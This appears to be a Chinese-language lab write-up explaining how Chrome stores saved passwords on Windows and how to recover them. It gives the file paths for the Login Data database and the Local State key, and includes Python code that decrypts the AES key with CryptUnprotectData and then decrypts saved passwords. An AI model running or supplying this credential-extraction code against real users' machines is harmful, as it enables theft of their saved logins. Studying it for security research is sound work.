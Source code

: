 <br>
<br>

### Chrome浏览器<br>
而Chrome浏览器没有主密钥，更容易提取密码。Chrome浏览器加密后的密钥存储于%APPDATA%\..\Local\Google\Chrome\User Data\Default\Login Data”下的一个SQLite数据库中。密码是调用Windows API函数CryptProtectData来加密的。这意味着，只有用加密时使用的登陆证书，密码才能被恢复。破解密码，只需要调用Windows API中的CryptUnprotectData函数。<br>
<br>

#### 代码思路：<br>
get_encryption_key()函数提取并解码用于加密密码的AES密钥，这"%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Local State"作为 JSON 文件存储在路径中。<br>
decrypt_password() 将加密密码和 AES 密钥作为参数，并返回密码的解密版本。<br>
在主函数中，我们使用get_encryption_key()函数获取加密密钥，然后我们将 sqlite 数据库（位于"%USERPROFILE%\AppData\Local\Google\Chrome\User Data\default\Login Data"保存密码的位置）复制到当前目录并连接到它，这是因为Chrome 当前正在运行，原始数据库文件将被锁定。之后，我们对登录表进行选择查询并遍历所有登录行，我们还解密每个密码date_created，完美提取Chrome浏览器保存的密码。最后，打印凭据并从当前目录中删除数据库副本。<br>
<br>

#### 实验环境：<br>
处理器：11th Gen Intel(R) Core(TM) i5-11300H @ 3.10GHz<br>
内存：16GB LPDDR4<br>
操作系统：Win11<br>
编译器：python3.10(64-bit) <br>
代码语言：Python<br>
<br>

#### 关键代码：<br>

```python
def get_encryption_key():
    local_state_path = os.path.join(os.environ["USERPROFILE"],
                                    "AppData", "Local", "Google", "Chrome",
                                    "User Data", "Local State")
    with open(local_state_path, "r", encoding="utf-8") as f:
        local_state = f.read()
        local_state = json.loads(local_state)

    en_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])

    key=win32crypt.CryptUnprotectData(en_key[5:], None, None, None, 0)[1]
    return key

#解密password
def decrypt_password(password, key):
    try:
        iv = password[3:15]
        password = password[15:]
        cipher = AES.new(key, AES.MODE_GCM, iv)
        return cipher.decrypt(password)[:-16].decode()
    except:
        try:
            return str(win32crypt.CryptUnprotectData(password, None, None, None, 0)[1])
        except:
            return ""
```
